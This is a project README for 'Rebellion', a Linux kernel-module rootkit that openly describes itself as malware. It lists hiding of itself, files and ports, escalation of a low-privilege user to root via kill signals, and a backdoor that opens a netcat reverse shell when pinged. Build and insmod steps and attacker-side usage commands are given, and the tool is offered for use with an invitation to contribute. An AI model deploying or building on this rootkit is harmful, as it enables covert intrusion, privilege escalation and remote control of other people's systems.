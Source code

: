 <h1 align="center">「⚔️」 About Rebellion</h1>

<p align="center"><img src="assets/banner.png"></p>

Rebellion is a sophisticated rootkit malware developed specifically for operating systems based on the Linux kernel in the x86 and x86_64 architecture in its 5.x/6.x versions. Rebellion has several features such as self hide/unhide, hide folder/file, hide TCP/UDP port, turning low-privilege users into root and backdoor via ping.

**Note**: Currently, the rootkit is going through a beta phase, where bugs, compilation failures, problems with architectures can be found. I ask that you collaborate with the development of the project to avoid as many problems as possible.

## Features
### Self hide/unhide
Rebellion has the ability to hide/unhide in the system using the `kill -12 0` command.

### Hide folder/file
Rebellion allows you to hide files and directories from a magic prefix defined as `reb_` (`config.h`).
Ex.: `reb_operations/`, `reb_backdoor.elf`.

### Hide TCP/UDP port
Rebellion allows you to hide a TCP/UDP port on your system. The port is defined in the `config.h` file in the `HIDE_PORT` macro.
**Note**: Only works for `netstat` and `lsof` commands. This is a part that is still under development.

### User2Root
When running the `kill -10 0` command with a low-privilege user, Rebellion adds their privileges to `0`, making them a user with `root` permissions on the system.

### Backdoor via ping
Rebellion has a feature that allows you to receive a reverse shell via `netcat` by sending an ICMP packet via `ping` to your IP and port defined in the `config.h` file in the macros `YOUR_SRV_IP` and `YOUR_SRV_PORT`.

* Self hide/unhide
* Hide folder/file
* Hide TCP/UDP port
* User2Root
* Backdoor via ping

## Tested Kernel Versions
| Distro | Kernel Details |
| ----------- | ----------- |
| Debian GNU/Linux 12 (bookworm) | 6.1.0-32-amd64 (2025-03-06) x86_64 GNU/Linux |
| Ubuntu 22.04 (Jammy Jellyfish) | 5.15.0-25-generic Mar 30 15:54:22 UTC 2022 x86_64 GNU/Linux |

## Build & Run
```
git clone https://github.com/brosck/Rebellion
cd Rebellion/src
# edit config.h file
make
sudo insmod rebellion.ko
```

## Usage
### Self hide/unhide
```
kill -12 0
```

### Hide folder/file
```
mkdir reb_operations
cd reb_operations
echo test > reb_test.txt
```

### Hide TCP/UDP port
```
# edit HIDE_PORT macro in config.h
netstat -tunlp | grep 1234
```

### User2Root
```
kill -10 0
```

### Backdoor via ping
Target machine:
```
# edit YOUR_SRV_IP and YOUR_SRV_PORT macro in config.h and start LKM
```

Your machine (1º terminal):
```
nc -lnvp 1234
```

Your machine (2º terminal):
```
sudo ping -c 1 <TARGET IP>
```

## Bugs and Improvements
If you have any suggestions for improvements or want to report a bug, feel free to create and report an [issue](https://github.com/brosck/Rebellion/issues) or [pull request](https://github.com/brosck/Rebellion/issues), the aim is always to improve the tool with different features.
